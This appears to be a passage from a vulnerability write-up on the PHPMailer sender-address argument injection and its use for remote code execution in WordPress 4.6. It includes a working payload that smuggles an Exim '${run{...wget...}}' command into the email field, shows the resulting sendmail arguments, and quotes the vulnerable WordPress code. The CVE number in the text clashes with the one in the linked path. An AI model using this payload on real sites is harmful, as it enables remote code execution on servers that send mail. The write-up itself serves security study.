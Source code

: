 ```php
                    '([!#-\'*+\/-9=?^-~-]+|"(?>(?2)(?>[\x01-\x08\x0B\x0C\x0E-!#-\[\]-\x7F]|\\\[\x00-\x7F]))*' .
                    '(?2)")(?>(?1)\.(?1)(?4))*(?1)@(?!(?1)[a-z0-9-]{64,})(?1)(?>([a-z0-9](?>[a-z0-9-]*[a-z0-9])?)' .
                    '(?>(?1)\.(?!(?1)[a-z0-9-]{64,})(?1)(?5)){0,126}|\[(?:(?>IPv6:(?>([a-f0-9]{1,4})(?>:(?6)){7}' .
                    '|(?!(?:.*[a-f0-9][:\]]){8,})((?6)(?>:(?6)){0,6})?::(?7)?))|(?>(?>IPv6:(?>(?6)(?>:(?6)){5}:' .
                    '|(?!(?:.*[a-f0-9]:){6,})(?8)?::(?>((?6)(?>:(?6)){0,4}):)?))?(25[0-5]|2[0-4][0-9]|1[0-9]{2}' .
                    '|[1-9]?[0-9])(?>\.(?9)){3}))\])(?1)$/isD',
                    $address
                );
[...]
```

Fortunately, LegalHackers studied ways to bypass this blockage using as reference the email RFC where we should be able to use spaces (This is very well explained by them, the link in the References Section). They have gave us information about how to bypass 'pcre8' email filter. If other filter pattern is used in PHPMailer, the exploit will not work correctly.

```bash
Payload:
email@dd(tmp1 -be ${run{/usr/bin/wget${substr{10}{1}{$tod_log}}http://127.0.0.1/test}} tmp2)

Commandeugger:
Received: /usr/sbin/sendmail
Received: -femail@dd(tmp1
Received: -be
Received: ${run{/usr/bin/wget${substr{10}{1}{$tod_log}}http://127.0.0.1/test}}
Received: tmp2)
```

Finally we have a working exploit for **CVE-2016-1033, when attacker has access to the 'emailFrom' input**.


## Wordpress 4.6 Remote Code Execution

When a common used third party library as PHPMailer get compromised, a lot of softwares could get bitten by the exploit. Wordpress 4.6 was one of them. In this last section we are going to exploit it, reviewing the source code of Wordpress to understand exactly what is going on.
For this, no PoC have been created, because we will use directly a vulnerable version of wordpress instead. Pre-requisites for this to work are [here](https://github.com/AlvFolgado/CVEPoCs/blob/master/PHP/ArgumentI/cve201610033/PocGuide.txt).

Following the existing RCE documentation, we know that the vulnerable parameter is the Hostname HTTP Header in the "lostpassword" function of wordpress 4.6

wordpress4.6/wp-includes/pluggable.php:

```php

	if ( !isset( $from_email ) ) {
		// Get the site domain and get rid of www.
		$sitename = strtolower( $_SERVER['SERVER_NAME'] );
		if ( substr( $sitename, 0, 4 ) == 'www.' ) {
			$sitename = substr( $sitename, 4 );
		}

		$from_email = 'wordpress@' . $sitename;
	}

[...]
	
	$phpmailer->setFrom( $from_email, $from_name);
```